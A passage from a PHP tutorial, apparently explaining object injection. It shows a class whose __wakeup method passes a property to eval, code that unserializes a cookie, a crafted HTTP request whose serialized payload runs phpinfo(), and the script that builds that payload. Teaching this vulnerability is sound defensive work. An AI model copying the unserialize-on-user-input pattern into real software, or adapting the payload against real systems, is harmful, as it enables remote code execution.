 The example below shows a PHP class with an exploitable __wakeup method:

```php
class Example2
{
   private $hook;

   function __construct()
   {
      // some PHP code...
   }

   function __wakeup()
   {
      if (isset($this->hook)) eval($this->hook);
   }
}

// some PHP code...

$user_data = unserialize($_COOKIE['data']);

// some PHP code...

```

In this example an attacker might be able to perform a Code Injection attack by sending an HTTP request like this:

```php
GET /vuln.php HTTP/1.0
Host: testsite.com
Cookie: data=O%3A8%3A%22Example2%22%3A1%3A%7Bs%3A14%3A%22%00Example2%00hook%22%3Bs%3A10%3A%22phpinfo%28%29%3B%22%3B%7D
Connection: close

```

Where the cookie parameter "data" has been generated by the following script:

```php
class Example2
{
   private $hook = "phpinfo();";
}

print urlencode(serialize(new Example2));

```



#### Syntax


- string serialize ( mixed $value )
